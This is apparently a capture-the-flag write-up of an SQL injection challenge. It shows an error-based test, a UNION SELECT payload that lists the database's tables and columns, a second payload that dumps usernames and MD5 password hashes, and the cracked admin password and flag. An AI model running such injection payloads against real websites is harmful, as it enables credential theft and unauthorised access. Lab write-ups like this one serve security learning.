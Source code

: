 Challenge description:
==
< oops! I lost the challenge descripting during editing... >

---
At the website, there is a login page and a search user page.

After trying common sql on the login page with no interesting response, we move on to __search user page__ which had already loaded 2 columns of Username, Nickname for everyone to see.

---
First observation @ http://web.spro.ink:3008/search.php

Results:
|Username|	Nickname|
|---|---|
|admin	|	superuser|
|xinan	|	the guy|
|wenyan	|	the girl|
|potato	|	the food|
|sadhi	|	the friend|
|john	|	the stranger|
	
---
Test for SQL vulnerability
==
We try to see if there are any response when given an invalid data like a single quote. 

Results
>	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

When we see the error message, we can conclude that this input form is vulnerable to sql injection.

---
Constructing injection
==
From our very 1st observation, the 2 preloaded columns of Username and Nickname implied that a SELECT statement is inside.

My initial guess:	
```SQL
SELECT Username, Nickname from XXXX where Username='<input name here>'
```

We can make use of the ```UNION``` command to add another ```SELECT``` statements with same number of columns behind the guess.

There is also an interesting table known as ```information_schema``` in MySQL that can help provide us the Table name and its columns!

We proceed to inject the follow:
```sql
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE     '1'='1
```
    
Explanation:
- The first single quote terminate the string to be read by acting as a closing quote. Notice that the very last digit 1
do not have a closing quote? That's because we are making use of the closing quote within the hidden SQL command.

- ```UNION``` is used to exploit the fact we are aware of the hiden ```SELECT``` using 2 columns so we can combine with our own ```SELECT``` statement with 2 other interesting columns.

- where ```'1'='1'``` will always validate true so it will spew out all the table names and column names.

Results:

|Username	    |	Nickname|
|---|---|
|CHARACTER_SETS	|	CHARACTER_SET_NAME|
|CHARACTER_SETS	|	DEFAULT_COLLATE_NAME|
|CHARACTER_SETS	|	DESCRIPTION|
|CHARACTER_SETS	|	MAXLEN|
|COLLATIONS	    |	COLLATION_NAME|
|COLLATIONS	    |	CHARACTER_SET_NAME|
|COLLATIONS	    |	ID|
|COLLATIONS	    |	IS_DEFAULT|
|COLLATIONS	    |	IS_COMPILED|
|COLLATIONS	    |	SORTLEN|
|...|...|
|...|...|
|...|...|
|users|	        	id|
|users|	        	username|
|users|	        	password|
|users|	        	nickname|

---
Fine tuning
==
After knowing the Table name and column names, we can generate another SQL injection to get the credentials of admin
```sql
' UNION SELECT username, password FROM users WHERE '1'='1
``` 
Result:

|Username|	Nickname|
|---|---|
|admin|		79fff4b82b55a67cf96aa059dc1aa956|
|xinan|		7d493220036eb672a9e2d949920be704|
|wenyan|		7d493220036eb672a9e2d949920be704|
|potato|		7d493220036eb672a9e2d949920be704|
|sadhi|		7d493220036eb672a9e2d949920be704|
|john|		7d493220036eb672a9e2d949920be704|

---
Crack hash
==
We can crack the hash password @ https://crackstation.net/

The md5 hash password: ```clearwat```

Go login as admin with the password and we got the flag! :D 

---
flag{sql1_n3v3r_been_s0_eZ}

